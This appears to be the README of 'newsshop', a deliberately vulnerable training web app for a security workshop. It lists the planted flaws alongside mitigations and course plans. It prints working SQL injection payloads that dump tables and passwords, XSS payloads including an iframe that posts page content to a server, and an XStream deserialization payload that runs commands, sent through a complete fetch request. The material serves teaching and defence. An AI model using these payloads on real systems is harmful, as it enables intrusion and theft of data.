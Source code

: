 newsshop
========

## Included known vulnerabilities:

### SQL Injection
* `name` field is vulnerable to SQL Injection
  * in a first step the attacker might read all tables in the database with
    ```
    ' or 1=1 UNION SELECT 0,false, 'alle','',GROUP_CONCAT(TABLE_NAME SEPARATOR ', '),'' FROM INFORMATION_SCHEMA.TABLES;--
    ```
  * in a second step he may read the contents of `PASSWORD`
    ```
    ' or 1=1 UNION SELECT 0,false, 'passwörter','',GROUP_CONCAT(PASSWORD SEPARATOR ', '),'' FROM PASSWORD;--
    ```

### Cross Site Scripting
* `source` field is vulnerable to XSS
  ```
  <img src="a" onerror="alert('hacked')" />
  ```
### Legacy attributes in API
* the newsletter support more attributes than the newsletter form
  * the field `mailProperties` may be filled with JSON/HTML by using a rest client/or browser tools
  * the field `mailproperites` itself is vulnerable to XSS

### Invalid Supply Chain
* xstream in 1.4.6 contains a command injection vulnerability
  * `http://localhost:8080/api/newsletter/import` with payload
    ```
    <newsletter class='dynamic-proxy'>
        <interface>com.andrena.newsshop.model.Newsletterable</interface>
        <handler class='java.beans.EventHandler'>
            <target class='java.lang.ProcessBuilder'>
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>
    ```

### Privileges
* Admin and Users run in the same Application
* Database contains Newsletters but also Passwords from another team (that has nothing to do with newletters)

## Planned/Possible vulnerabilities:

### Regex Denial of Service
* some attribute of the newsletter could be validated with a regexp, that may expand in exponential time

### Broken serialization
* `mail properties` is at this time a json document with html contents. It may also be yaml. Maybe it can be used to inject a serialization vulnerability

### Reflected/DOM XSS
* the confirmation page/error page could embedded html in and unsafe way allowing XSS
  * depedent on the source of JS-Injectable 
    * url parameter => DOM XSS
    * result of the former api call => Reflected XSS

## Mitigation

### Validate Input

* Names need not contain double quotes
* Number input should be numeric
* JSON Input should be JSON
* Richtext may contain HTML, but only formatting, no links, no images, no iframes
* dropdowns should be in a list of options

### sanitize output to other systems

* For SQL use Prepared Statements or equivalents
  * Never use user dependent SQL Templates (whenever the template string cannot be proofed to be in a finite set of texts, this should be alerting)
* For Serialization limit the types of the result
  * Limiting to interfaces should be considered harmful (because these allow an infinite set of new sub classes)
* For Console Access
  * Limit to allowed commands

### Track the dependencies

* Update to the newest dependencies
* Check whether vulnerable dependencies are drawn
  * and check whether the vulnerable part is really depended on

### Control your privileges

* for databases
  * do not access the database with admin rights
  * restrict the user to exactly those tables that he needs (`grant ...`)
* in general
  * do not run with root privileges
    * unless really needed - an than return the privileges as soon as possible

### Content Security Policy

* not allowing onerrors to be defined in the page would prevent `<img onerror>` attacks

### more xss examples:
* Blind XSS (executed on admin page)
* send page content to other server
```
<iframe src="javascript:console.log('xss?', window.parent.document.body.innerHTML)"></iframe>

<iframe src="javascript:fetch('http://localhost:8080', {
  method: 'POST',
  body: window.parent.document.body.innerHTML
})
"></iframe>
```
* delete entries in table
```
<iframe src="javascript:window.parent.document.querySelector('.delete-btn').click()"></iframe>
```

### to be continued
* add XSS to confirmation page
* add OpenAPI 
* add old urls in the frontend code (to hint at mail properties?)

### Next steps:
* docker
* Struktur/Ablauf Workshop mit Secorvo, insbesondere die Inhalte (erstmal abwarten): Wie soll der Kurs laufen?
* Folien fertigstellen
* Tests für die Maßnahmen: Input Validation,...
* Hints: über Anwendung, Handouts, über Fragen während des Workshops (die kann man schon vorbereiten)


### how to get the participants to the attacks

* admin password can be guessed (should just be used to see the results of XSS and not as an attack)
* e-mail: enter same value twice
* sql: try the different input fields, start with '
* MailProperties: guess, try things out, admin dashboard

### complete fetch code for invalid supply chain on mac 
* post into browser console
```
fetch("http://localhost:8080/api/newsletter/import", {
headers: {
"accept": "application/json, text/plain, */*",
"authorization": "Basic YWRtaW46YWRtaW4=",
"cache-control": "no-cache",
"Content-Type": "application/xml"
},
referrer: "http://localhost:8080/subscribe.html",
referrerPolicy: "strict-origin-when-cross-origin",
body: `<newsletter class="dynamic-proxy">
        <interface>com.andrena.newsshop.model.Newsletterable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>touch</string>
                    <string>mynewfile</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </newsletter>`,
method: "POST",
mode: "cors",
credentials: "include"
});
```

* connect to image and look for the generated file
```
$ docker exec -it newsshop-app-1 /bin/sh
/app # ls
```
